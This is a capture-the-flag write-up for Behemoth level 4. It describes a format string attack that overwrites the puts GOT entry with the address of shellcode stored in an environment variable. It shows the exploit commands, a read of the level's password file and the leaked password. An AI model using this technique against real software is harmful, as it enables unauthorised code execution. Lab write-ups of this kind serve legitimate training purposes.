 # behemoth level4 Solution


first i created `profile.rr2` file and put the follow content in it:
```
program=/behemoth/behemoth3
stdin=input
```

then, i inserted the payload into the input file:
```
python3 payload.py > input
```

and then, when i want to debug with r2 and the given input, i can run this line: 
```
r2 -e dbg.profile=profile.rr2
```
first, we can see that the binary doesn't use ASLR, and also the relro is turned off.
![alt text](./images/level4_1.png)

so, let's try to use the format string attack to override the address of the puts function to our shellcode address.

find the address to override:
![alt text](./images/level4_2.png)
![alt text](./images/level4_3.png)
so, the address is: `0x0804b218`
the address we want to insert is: `0xffffd53f` (same as last level, put shellcode on env, and find its address)

the python script for creating the payload can is here: [level4.py](./scripts/level4.py)

after building the payload, all left is to run this:
```
(python3 payload.py;cat) | /behemoth/behemoth3
```

and then
```
cat /etc/behemoth_pass/behemoth4
hpjUdlG723
```

**Flag:** ***`hpjUdlG723`*** 
